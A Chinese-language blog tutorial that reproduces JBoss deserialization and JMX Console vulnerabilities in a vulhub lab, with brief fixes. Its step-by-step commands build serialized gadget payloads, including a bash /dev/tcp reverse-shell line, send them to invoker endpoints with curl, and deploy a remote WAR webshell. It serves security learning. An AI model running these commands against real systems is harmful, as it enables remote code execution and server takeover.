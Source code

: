 # jboss常见漏洞复现


### JBoss 5.x/6.x 反序列化漏洞( CVE-2017-12149 )
**验证：** 访问`/invoker/readonly`，如果返回 500 ,说明页面存在,此页面存在反序列化漏洞。
![](https://image.geoer.cn/jboss_500.png)

利用工具：[JavaDeserH2HC](https://github.com/joaomatosf/JavaDeserH2HC)
**步骤：**
1.先编译

```bash
# 我们选择一个 Gadget : ReverseShellCommonsCollectionsHashMap ,编译并生成序列化数据
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java
```

2.设置反弹的IP和端口：

```bash
java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192.168.0.105:8888 # ip 是 nc 所在的 ip 
# 这样就会将序列化对象保存在ReverseShellCommonsCollectionsHashMap.ser中，用curl命令发送到Jboss服务地址
```

3.本机进行监听
```bash
nv -lvvp 8888
```

4.再打开另一个控制台，运行如下curl命令
```bash
curl http://192.168.0.100:8080/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser
```

5.成功反弹shell




### JBoss JMXInvokerServlet 反序列化漏洞
**验证：**  访问 `/invoker/JMXInvokerServlet`，返回如下,说明接口开放,此接口存在反序列化漏洞。
![](https://image.geoer.cn/JBossEJBInvokerServlet1.png)

这里直接利用 CVE-2017-12149 生成的 ser ,发送到 `/invoker/JMXInvokerServlet`接口中。

也可以直接利用工具检测：[工具下载地址](https://cdn.vulhub.org/deserialization/DeserializeExploit.jar)
```bash
# 运行工具即可
java -jar DeserializeExploit.jar
```


### JBoss EJBInvokerServlet 反序列化漏洞
**验证：** 访问     /invoker/EJBInvokerServlet    返回如下,说明接口开放,此接口存在反序列化漏洞。
![](https://image.geoer.cn/JBossEJBInvokerServlet.png)

这里直接利用 CVE-2017-12149 生成的 ser ,发送到 `/invoker/EJBInvokerServlet` 接口中


### 修复建议
1. 不需要`ttp-invoker.sar`组件的用户可直接删除此组件
2. 或添加如下代码至 http-invoker.sar 下 web.xml 的 security-constraint 标签中,对 http invoker 组件进行访问控制:`<url-pattern>/*</url-pattern>`




### JBoss <=4.x JBossMQ JMS 反序列化漏洞( CVE-2017-7504 )
利用工具：[JavaDeserH2HC](https://github.com/joaomatosf/JavaDeserH2HC)
**步骤：**
1.先编译
```bash
# 选择ExampleCommonsCollections1WithHashMap，编译并生成序列化数据
javac -cp .:commons-collections-3.2.1.jar ExampleCommonsCollections1WithHashMap.java   #编译 
```

2.设置反弹的IP和端口：
```bash
java -cp .:commons-collections-3.2.1.jar ExampleCommonsCollections1WithHashMap "bash -i >& /dev/tcp/192.168.0.105/1234 0>&1"       #ser全称serialize，序列化恶意数据至文件。
```

3.本机进行监听
```bash
nv -lvvp 1234
```

4.再打开另一个控制台，运行如下curl命令
```bash
#该ser文件作为请求数据主体发送如下数据包
curl http://192.168.0.100:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @ExampleCommonsCollections1WithHashMap.ser  # --data-binary 意为以二进制的方式post数据
```

5.成功反弹shell



### JMX Console 未授权访问
###### 漏洞描述
未授权访问管理控制台,通过该漏洞,可以后台管理服务,可以通过脚本命令执行系统命令,如反弹shell,wget写webshell文件。

###### 环境搭建
使用vulhub
```bash
cd vulhub/jboss/CVE-2017-7504/
docker-compose up -d

# 浏览器访问
```



###### 复现
1.未授权访问测试（无无需认证进入入控制⻚页面面）
```
http://192.168.0.100:8080/
# 进入控制页 JMX Console
http://192.168.0.100:8080/jmx-console/ 
```
![](https://image.geoer.cn/jmx_console.png)

2.点击`jboss.deployment`进入应用部署页面
![](https://image.geoer.cn/jboss_deployment.png)

3.使用apache搭建远程木马服务器(这里在kali上搭建)

```bash
# war马的制作方式：https://www.peekeyes.com/2020/01/13/%E5%88%B6%E4%BD%9Cwar%E6%9C%A8%E9%A9%AC%E5%B9%B6%E4%B8%94%E6%8B%BF%E4%B8%8Bwebshell/
jar cvf shell.war shell.jsp
```

4.通过addurl参数进行木马的远程部署

```
地址写远程服务器war马的地址
```
![](https://image.geoer.cn/jboss_war.png)

成功部署
![](https://image.geoer.cn/jboss_war_ok.png)

5.连接木马

```
http://192.168.0.100:8080/shell/shell.jsp
```
![](https://image.geoer.cn/jboss_war_connect.png)




###### 防护
- 对jmx控制页面访问添加访问验证。
- 进行JMX Console 安全配置。






---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/jboss%E5%B8%B8%E8%A7%81%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/  


